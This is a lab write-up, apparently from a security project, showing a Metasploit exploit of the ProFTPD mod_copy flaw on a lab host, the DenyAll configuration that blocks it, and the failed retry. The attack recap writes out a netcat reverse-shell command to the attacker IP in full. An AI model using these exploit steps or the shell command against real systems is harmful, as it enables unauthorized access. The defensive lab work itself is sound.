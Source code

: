 # 📃 Phase 3: Defensive Strategy

---

## 🛡️ 3.1 Before Defense - Successful Exploitation (Reference from Phase 1)

**Summary:**
- The attacker successfully compromised the victim using the `ProFTPD mod_copy` vulnerability.
- Reverse shell was obtained via Netcat listener.

### Step 1: Scan Victim with Nmap
```bash
nmap -sV 10.0.2.15
```
![10-nmap-scan-results.png](../phase1/screenshots/10-nmap-scan-results.png)

### Step 2: Launch Metasploit
```bash
msfconsole
```
![11-launch-msfconsole.png](../phase1/screenshots/11-launch-msfconsole.png)

### Step 3: Search for mod_copy Module
```bash
search mod_copy
```
![12-search-mod_copy-exploit.png](../phase1/screenshots/12-search-mod_copy-exploit.png)

### Step 4: Select the Exploit
```bash
use exploit/unix/ftp/proftpd_modcopy_exec
```
![13-select-mod_copy-exploit.png](../phase1/screenshots/13-select-mod_copy-exploit.png)

### Step 5: Show Options
```bash
show options
```
![14-show-exploit-options.png](../phase1/screenshots/14-show-exploit-options.png)

### Step 6: Set Target IP and Path
```bash
set RHOSTS 10.0.2.15
set SITEPATH /var/www/html
```
![15-set-RHOST-to-victim-ip.png](../phase1/screenshots/15-set-RHOST-to-victim-ip.png)
![16-set-SITEPATH-to-var-www-html.png](../phase1/screenshots/16-set-SITEPATH-to-var-www-html.png)

### Step 7: Set Payload
```bash
show payloads
```
![17-show-compatible-payloads.png](../phase1/screenshots/17-show-compatible-payloads.png)
```bash
set payload 5
```
![18-set-generic-reverse-shell-payload.png](../phase1/screenshots/18-set-generic-reverse-shell-payload.png)

### Step 8: Verify Options
```bash
show payload options
```
![19-verify-payload-options.png](../phase1/screenshots/19-verify-payload-options.png)

### Step 9: Set CMD for Reverse Shell
```bash
set CMD /tmp/mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.2.6 4444 > /tmp/f
```
![20-set-CMD-netcat-reverse-shell.png](../phase1/screenshots/20-set-CMD-netcat-reverse-shell.png)

### Step 10: Allow No Cleanup
```bash
set AllowNoCleanup true
```
![21-set-AllowNoCleanup-true.png](../phase1/screenshots/21-set-AllowNoCleanup-true.png)

### Step 11: Start Netcat Listener
```bash
nc -lnvp 4444
```
![22-start-netcat-listener.png](../phase1/screenshots/22-start-netcat-listener.png)

### Step 12: Run Exploit
```bash
run
```
![23-run-exploit.png](../phase1/screenshots/23-run-exploit.png)

### Step 13: Verify Shell Access
```bash
whoami
```
![24-successful-reverse-shell-access.png](../phase1/screenshots/24-successful-reverse-shell-access.png)

---

## 🔧 3.2 Defensive Action - Secure ProFTPD Configuration

### Step 1: Edit ProFTPD Configuration
```bash
sudo nano /opt/proftpd/etc/proftpd.conf
```
![1-open-proftpd-conf.png](./screenshots/1-open-proftpd-conf.png)

### Step 2: Scroll to Bottom
![2-scroll-to-bottom-proftpd-conf.png](./screenshots/2-scroll-to-bottom-proftpd-conf.png)

### Step 3: Add DenyAll Blocks
```apache
<Limit SITE_CPFR>
  DenyAll
</Limit>
<Limit SITE_CPTO>
  DenyAll
</Limit>
```
![3-add-denyall-blocks.png](./screenshots/3-add-denyall-blocks.png)

### Step 4: Save Changes
![4-save-changes-proftpd.png](./screenshots/4-save-changes-proftpd.png)

### Step 5: Restart ProFTPD
```bash
sudo service proftpd restart
```
![5-restart-proftpd.png](./screenshots/5-restart-proftpd.png)

---

## 🧪 3.3 After Defense - Attack Attempt Fails

### Step 1: Re-scan Victim
```bash
nmap -sV 10.0.2.15
```
![6-re-run-nmap.png](./screenshots/6-re-run-nmap.png)

### Step 2: Relaunch Metasploit
```bash
msfconsole
```
![7-re-launch-msfconsole.png](./screenshots/7-re-launch-msfconsole.png)

### Step 3: Search mod_copy Again
```bash
search mod_copy
```
![8-search-modcopy-again.png](./screenshots/8-search-modcopy-again.png)

### Step 4: Set RHOSTS and SITEPATH Again
```bash
set RHOSTS 10.0.2.15
set SITEPATH /var/www/html
```
![9-set-rhosts-and-sitepath-again.png](./screenshots/9-set-rhosts-and-sitepath-again.png)

### Step 5: Attempt Payload Setup (Fails)
```bash
set CMD /tmp/mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.2.6 4444 > /tmp/f
set AllowNoCleanup true
```
![10-show-payloads-error.png](./screenshots/10-show-payloads-error.png)
![11-show-options-and-set-cmd.png](./screenshots/11-show-options-and-set-cmd.png)

### Step 6: Start Netcat Listener Again
```bash
nc -lnvp 4444
```
![12-start-netcat-listener-again.png](./screenshots/12-start-netcat-listener-again.png)

### Step 7: Run Exploit Again
```bash
run
```
![13-run-exploit-again-fails.png](./screenshots/13-run-exploit-again-fails.png)

### Step 8: Confirm No Shell
```bash
whoami
```
![14-whoami-fails.png](./screenshots/14-whoami-fails.png)

---

# ✅ Conclusion

| Step | Status |
|:----|:------|
| Exploit before defense | ✅ Successful |
| Defense implemented | ✅ Successful |
| Exploit after defense | ❌ Failed (Defense works) |

- The ProFTPD service is now secure against `mod_copy` attacks.

---
